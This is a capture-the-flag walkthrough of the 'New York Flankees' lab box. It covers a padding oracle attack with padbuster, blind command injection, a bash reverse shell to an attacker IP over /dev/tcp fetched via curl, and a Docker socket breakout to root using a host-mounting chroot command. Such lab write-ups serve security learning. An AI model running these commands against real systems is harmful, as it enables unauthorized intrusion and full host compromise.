

# New York Flankees



The New York Flankees box is a **medium** level challenge and focuses on `Web Exploitation` and breaking out of a `Docker` container.

### Enumeration
Firstly, we start a Nmap scan and notice that there are two ports open: 22 and 8080.


With this information I visited the website to look for more information. In the meantime I launched `Feroxbuster` to give me an idea about the size and the directories in the web-application. There were not alot of directories and other pages, but I did find a admin panel. Scattered throughout the website itself were multiple hints about `Oracle` and `Padding`?

I quickly found a piece of JS which showed us that the page checks for the existance of a cookie called `loggedin`. With this cookie enabled the login button changed to a `DEBUG` button which showed us a TO-DO list of the developer. Here we found the hint about the `Padding`.

What have the words `Oracle` and `Padding` in common? That's right! maybe the site was vulnerable to a `Padding Oracle` attack.
[I checked the internet](https://book.hacktricks.xyz/crypto-and-stego/padding-oracle-priv) and found a way to scan for these vulnerablilities with a tool called `padbuster`.

I quickly gathered the information `padbuster` needed. The command looked like this:
```sh
padbuster http://<IP>:8080/api/debug/39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4 "39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4" 16 -encoding 1
```

It worked! `padbuster`  managed to break the encrypted blocks and showed us the decrypted strings which were also the first flag of the challenge 🚩

The decrypted strings could be used to login as user `Stefan` in the previously found login portal.
Once we logged in we captured the second flag 🚩 and had access to a form.


This form could be used to execute commands on the system, but we did not get to see the output of the commands, which was quite annoying. I tried to execute a reverse shell one-liner, but sadly this did not work. I used `BurpSuite` to check if I could find out which packages were installed on the machine. For every command which did not fail, we got a 200 return value.


As you can see in the image above, the `python3` package was available on the system and returned **OK**.

To further showcase what happend when a package was not found, the machine returned a **500 Internal Server Error**.

### Getting a reverse shell
As previously mentioned, the reverse shell one-liners did not work. I did find out the we had access to the `curl` binary.
I created a file called `reverse.sh` with the following contents:
```sh
#!/bin/bash
bash -i >& /dev/tcp/<YOUR_THM_IP>/9001 0>&1
```

I used `python3 -m http.server 8000` to startup a simple webserver on my own machine and used `curl` to retieve this file and store it in the `/tmp` directory. I started a `NetCat` listener, gave the file the right permissions and executed it.

Voilà, we managed to get a reverse shell! 🥳

### Breaking ~~Bad~~ Out 🐳
As we were in a Linux enviroment I always use `linpeass` to gather more information about the machine and the environment we are in, which was a Docker container.


First thing I noticed was that we had access to the `Docker socket` from within the Docker container. Further enumeration of the container, I found the `docker-compose.yaml` file, which contained the third flag of the challenge 🚩

After some quick searching [I came across the following article on hacktricks.xyz](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation).


Which meant that hopefully we could breakout easily from the `Docker` environment. As you can see in the image below, we had access to the `Docker daemon` by succesfully executing `Docker` commands in out current container.


### Root?
You can use the images to breakout of the `Docker` container and gain **root** access on the original machine.
Simply get the `IMAGE ID` of the `gradle` container and use it in the following command:
```sh
docker run -it -v /:/host/ d5954e1d9fa4 chroot /host/ bash
```

 Success! The fourth and last flag 🚩 can be found in `/root` 🥳